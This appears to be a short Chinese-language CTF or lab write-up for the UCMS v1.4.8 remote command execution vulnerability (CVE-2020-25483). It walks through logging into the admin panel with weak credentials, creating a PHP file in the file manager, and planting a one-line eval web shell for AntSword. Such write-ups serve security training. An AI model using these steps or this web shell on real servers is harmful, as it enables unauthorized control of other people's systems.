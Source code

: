 # ucms远程命令执行(CVE-2020-25483)
## 漏洞描述
UCMS v1.4.8版本存在漏洞，该漏洞源于文件写的fopen()函数存在任意命令执行漏洞，攻击者可利用该漏洞可以通过该漏洞访问服务器。 后台路径：/ucms

## 影响版本
UCMS v1.4.8

## 利用流程
1.访问地址：118.193.36.37:15497/ucms		弱口令登录 admin/123456

![image]()
2.选择 文件管理 -> 新建文件并提交

![image]()
3.访问生成的文件 并填入想要执行的：
```
<?php phpinfo();?>
```
![image]()
4.访问该网页 发现执行了phpinfo()

![image]()
5.返回生成的文件 填入一句话木马
```
<?php eval(@$_POST['a']); ?>
```
连接蚁剑 getflag

![image]()

